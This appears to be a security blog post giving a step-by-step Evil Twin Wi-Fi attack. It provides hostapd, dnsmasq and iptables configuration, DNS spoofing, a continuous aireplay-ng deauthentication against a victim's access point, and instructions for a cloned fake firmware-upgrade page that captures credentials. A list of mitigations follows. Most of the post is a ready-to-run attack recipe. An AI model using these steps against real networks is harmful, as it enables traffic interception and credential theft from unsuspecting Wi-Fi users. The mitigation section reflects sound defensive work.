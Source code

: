 ```yaml
---
layout: post
title: Evil Twin Attack
date: 2025-02-01 13:40 +0000
categories: [Exploits, Evil Twin Attack]
tags: [Exploits, Evil Twin Attack]
permalink: /posts/Evil-Twin-Attack/
image:  
  path: /assets/img/thumbnails/Evil-Twin.png
---
```




# **Evil Twin Attack: Exploiting Wi-Fi Clients Without Additional Hardware**

## **Introduction**

The **Evil Twin Attack** is a sophisticated method of exploiting Wi-Fi clients by creating a rogue access point (AP) that mimics a legitimate one. The goal is to force clients to disconnect from the legitimate network and reconnect to the malicious AP, which has the same SSID. Once connected, the attacker can intercept traffic, redirect users to a fake firmware upgrade page, and harvest credentials or other sensitive information.

This attack can be executed using a Debian-based OS like **Kali Linux** without the need for additional hardware (though an external NIC may improve performance). Below is a step-by-step guide to setting up the attack, followed by mitigation strategies to defend against such exploits.

---

## **Attack Overview**
1. **Objective**: 
   - Knock Wi-Fi clients off their legitimate network.
   - Force them to reconnect to a rogue AP with the same SSID.
   - Redirect traffic to a fake firmware upgrade portal to harvest credentials.

2. **Tools**:
   - `hostapd`: For creating the rogue AP.
   - `dnsmasq`: For DHCP and DNS spoofing.
   - `apache2/nginx`: For hosting the fake portal.
   - `iptables`: For traffic redirection.
   - `aireplay-ng`: For deauthentication attacks.

3. **Prerequisites**:
   - A wireless interface in monitor mode.
   - Basic knowledge of networking, social engineering, and web development.

---

## **Step-by-Step Execution**

### **1. Install Required Tools**
```bash
sudo apt install hostapd dnsmasq apache2
```

### **2. Set Wireless Interface to Monitor Mode**
```bash
iwconfig [iface] mode monitor
```

### **3. Create Working Directory**
```bash
mkdir evil-twin && cd evil-twin
```

### **4. Configure `hostapd`**
Create `hostapd.conf`:
```bash
vim hostapd.conf
```
Configuration:
```ini
interface = [iface]
driver = nl80211
ssid = [ESSID of target]
hw_mode = g
channel = [channel of target]
macaddr_acl = 0
ignore_broadcast_ssid = 0
```

### **5. Configure `dnsmasq`**
Create `dnsmasq.conf`:
```bash
vim dnsmasq.conf
```
Configuration:
```ini
interface = [iface]
dhcp-range = 192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
dhcp-option=3, 192.168.1.1
dhcp-option=6, 192.168.1.1
server = 8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1
```

### **6. Configure Network Interface**
```bash
ifconfig [iface] up 192.168.1.1 netmask 255.255.255.0
```

### **7. Add Routing Rules**
```bash
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

### **8. Set Up IP Tables for Traffic Redirection**
```bash
iptables --table nat --append PREROUTING -i [iface] -p tcp -j REDIRECT --to-ports <ports running your portal>
```

### **9. Set Up the Fake Portal**
- Use tools like `httrack` to clone a legitimate firmware upgrade page.
- Modify the HTML/CSS to make it convincing.
- Set up a backend (e.g., Flask, Node.js) to handle user input.
- Save credentials to a database or file.

### **10. Start Services**
```bash
hostapd hostapd.conf
dnsmasq -C dnsmasq.conf -d
dnsspoof -i [iface]
```

### **11. Launch Deauthentication Attack**
```bash
aireplay-ng --deauth 0 -a [victim's BSSID] [iface]
```

---

## **Mitigation Strategies**

### **1. Use Strong Encryption**
- Ensure your Wi-Fi network uses **WPA3** encryption. If WPA3 is unavailable, use **WPA2** with a strong passphrase.

### **2. Monitor for Rogue APs**
- Deploy wireless intrusion detection systems (WIDS) to detect and alert on rogue APs.

### **3. Implement Certificate-Based Authentication**
- Use **802.1X/EAP** to authenticate devices connecting to your network. This prevents unauthorized devices from joining, even if they have the correct SSID and password.

### **4. Educate Users**
- Train users to recognize suspicious activity, such as unexpected firmware upgrade prompts or certificate warnings.

### **5. Disable Auto-Reconnect**
- Configure devices to **not auto-reconnect** to known networks without user confirmation.

### **6. Regularly Update Firmware**
- Ensure all network devices are running the latest firmware to patch known vulnerabilities.

### **7. Segment Your Network**
- Use VLANs to isolate sensitive devices and services from the rest of the network.

### **8. Monitor Network Traffic**
- Use tools like **Wireshark** or **Zeek** to analyze network traffic for anomalies.

### **9. Enable HTTPS Everywhere**
- Ensure all web-based services use HTTPS to prevent traffic interception.

### **10. Deploy Honeypots**
- Set up honeypot APs to detect and analyze malicious activity.


